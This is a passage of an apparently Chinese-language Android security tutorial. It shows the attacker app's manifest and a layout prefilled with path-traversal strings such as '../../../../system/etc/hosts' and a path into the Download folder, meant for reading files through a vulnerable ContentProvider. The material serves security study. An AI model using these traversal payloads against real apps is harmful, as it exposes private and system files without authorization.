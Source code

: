 ```java
                        e.printStackTrace();
                    }
                }
                break;

            default:
                Toast.makeText(this, "未定义的点击事件", Toast.LENGTH_SHORT).show();
                Log.i("haha", "未定义的点击事件");
        }
    }
```
### 3.2、攻击机
AndroidManifest.xml
```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.example.tom.sendbroadcast">
    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/AppTheme">
        <activity android:name=".MainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>

</manifest>
```
布局文件 activity_main.xml
```xml
    <EditText
        android:id="@+id/et_package"
        android:layout_width="match_parent"
        android:layout_height="wrap_content"
        android:hint="authorities"
        android:text="authorities" />

    <EditText
        android:id="@+id/et_fileName"
        android:layout_width="match_parent"
        android:layout_height="wrap_content"
        android:hint="要读取的文件"
        android:text="../../../../system/etc/hosts" />
    <!--../../../../system/etc/hosts-->
    <!--../../../../../../../storage/emulated/0/Download/qqqq.txt-->

    <TableRow
        android:layout_width="match_parent"
        android:layout_height="wrap_content">

        <!--通过contentProvider来读取-->
        <Button
            android:id="@+id/btn_read_file"
            android:layout_width="match_parent"
            android:layout_height="wrap_content"
            android:layout_weight="1"
```